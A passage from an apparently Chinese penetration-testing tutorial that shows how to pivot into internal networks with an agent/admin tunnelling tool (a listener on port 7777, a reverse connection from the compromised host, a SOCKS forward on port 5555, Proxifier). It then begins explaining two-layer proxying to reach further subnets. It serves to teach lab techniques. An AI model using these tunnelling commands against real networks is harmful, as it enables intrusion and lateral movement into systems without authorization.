```php
admin.exe -lport 7777
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a37a20fa499acdf55df286cea1a82cea698c1e4b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a37a20fa499acdf55df286cea1a82cea698c1e4b.png)

然后在靶机上执行命令

```php
agent.exe -rhost 192.168.10.8 -rport 7777
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-563f3d6a66e00d37ae5c0c59ee2ac23d712fe6db.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-563f3d6a66e00d37ae5c0c59ee2ac23d712fe6db.png)

返回攻击机执行命令将7777端口接收到的数据转换到5555端口

```php
goto 1
socks 5555
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-dfa90893c781c2f4030b0cdbf42c374be7c45d3e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-dfa90893c781c2f4030b0cdbf42c374be7c45d3e.png)

然后使用proxifier代理本地的5555端口

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-57b3a03e59b6507bcc50438229e7d1da43cf80c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-57b3a03e59b6507bcc50438229e7d1da43cf80c0.png)

可以看到这里已经代理成功

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f0c5265b7120126532a6256c5eb52949805b4e12.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f0c5265b7120126532a6256c5eb52949805b4e12.png)

访问内网的iis服务器即可成功

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a380a3736bc08eb164bed98e547d8277a2c55ee5.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a380a3736bc08eb164bed98e547d8277a2c55ee5.png)

第二点的话在一层网络的情况下其实稳定性都差异不大，如果是反向连接的话主要取决于vps传输的稳定性，但是在二层、三层网络的情况下确实有些差异，这里我后面会提到。

二层网络
====

何为二层网络？这里一个不太正规但是比较通俗的理解就是使用两次代理软件转发了两次，其实就是在内网中存在两个网段的主机

比如说我公网的vps的ip为25.36.87.95(这里乱写的打个比方)，然后我拿到了公网ip为36.58.69.58(同打比方)的一个shell，内网主机的ip为192.168.2.22。

那么这里ip地址为192.168.2.1-192.168.2.255的主机都在同一网段，如果说我们上线了另外一台主机ip是192.168.2.23，这不能称得上是二层代理，在信息搜集的时候，我们发现ip为192.168.2.22这台主机和A段下的ip为10.10.1.3这台主机建立了ipc连接，如果我们要拿到10.10.1.3这台主机的shell或者上线cs/msf，这才能称得上二层网络代理转发

这里提一个点，不同网段并不是一个ip在C段(192)，一个ip在A段(10)才称得上同一网段，这里如果另外一个与靶机建立ipc连接的主机的ip为192.168.3.3，我们香要上线或拿webshell，也称得上是二层网络
